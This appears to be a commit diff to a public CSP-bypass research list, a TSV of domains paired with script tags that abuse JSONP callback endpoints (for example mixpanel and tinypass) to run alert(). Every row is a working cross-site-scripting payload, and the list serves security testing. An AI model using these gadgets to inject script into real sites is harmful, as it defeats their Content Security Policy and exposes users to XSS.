

Before and after one commit to renniepak/CSPBypass, a TSV file: data.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out; the shorter side is filled out with more unchanged rows; long unchanged cells end in …; the diff covers the shown part only.

Commit message:
Update data.tsv
A bunch of new callbacks :)

```diff
--- a/data.tsv
+++ b/data.tsv
@@ -12,2 +12,4 @@ ajax.googleapis.com	<script src="https://ajax.googleapis.com/ajax/libs/angularjs
 anchor.digitalocean.com	<script src="https://anchor.digitalocean.com/index.php/form/getForm?munchkinId=113-DTN-266&form=1402&callback=alert"></script>
+api-js.mixpanel.com  <script src="https://api-js.mixpanel.com/engage/?callback=alert(1)"></script>
+api-v3.tinypass.com  <script src="https://api-v3.tinypass.com/api/v3/conversion/logAutoMicroConversion?callback=alert"></script>
 ap.lijit.com	<script src="https://ap.lijit.com/rtb/bid?callback=alert&br={%22id%22:%221%22,%22site%22:{%22domain%22:%22x%22,%22page%22:%22x%22}}"></script>
```
Also changed, not shown: 22 added rows elsewhere in this file.
